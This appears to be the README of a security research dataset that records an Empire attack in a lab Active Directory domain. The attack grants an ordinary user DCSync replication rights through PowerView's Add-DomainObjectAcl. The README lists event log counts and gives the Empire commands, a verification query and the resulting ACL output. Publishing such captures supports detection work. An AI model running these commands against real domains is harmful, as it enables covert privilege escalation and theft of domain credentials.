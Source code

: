
# Empire DCSync

An adversary with enough permissions (domain admin) can add an ACL to the Root Domain for any user, despite being in no privileged groups, having no malicious sidHistory, and not having local admin rights on the domain controller itself .

## Technique(s) ID

T1222

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_dcsync_acl.tar.gz](./empire_dcsync_acl.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-01125905

## About this file

| log_name                                 | task                                                   |   events_count  |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             280 |
| Windows PowerShell                       | Provider Lifecycle                                     |               8 |
| Windows PowerShell                       | Engine Lifecycle                                       |               1 |
| Security                                 | Filtering Platform Connection                          |             181 |
| Security                                 | Token Right Adjusted Events                            |              93 |
| Security                                 | User Account Management                                |              11 |
| Security                                 | Detailed File Share                                    |               9 |
| Security                                 | Directory Service Changes                              |               6 |
| Security                                 | Group Membership                                       |               4 |
| Security                                 | Logoff                                                 |               4 |
| Security                                 | Logon                                                  |               4 |
| Security                                 | Special Logon                                          |               4 |
| Security                                 | Authentication Policy Change                           |               3 |
| Security                                 | Directory Service Access                               |               3 |
| Security                                 | Process Termination                                    |               3 |
| Security                                 | SAM                                                    |               3 |
| Security                                 | File Share                                             |               2 |
| Security                                 | Authorization Policy Change                            |               1 |
| Security                                 | Process Creation                                       |               1 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |             500 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             271 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             149 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              70 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              45 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              27 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              18 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               6 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               5 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             264 |


## Empire Activity

```
scriptimport data/module_source/situational_awareness/network/powerview.ps1
scriptcmd Add-DomainObjectAcl -TargetIdentity "dc=shire,dc=com" -TargetDomain shire.com -PrincipalIdentity nmartha -Rights DCSync
```

You can verify that it worked by running the following commands:

```
scriptcmd $nmarthaSid = Get-DomainUser nmartha | Select-Object -ExpandProperty objectsid; Get-DomainObjectACL  "dc=shire,dc=com" -Domain shire.com -ResolveGUIDs | Where-Object {$_.securityidentifier -eq $nmarthaSid}
```

```
AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-In-Filtered-Set
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-All
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0
```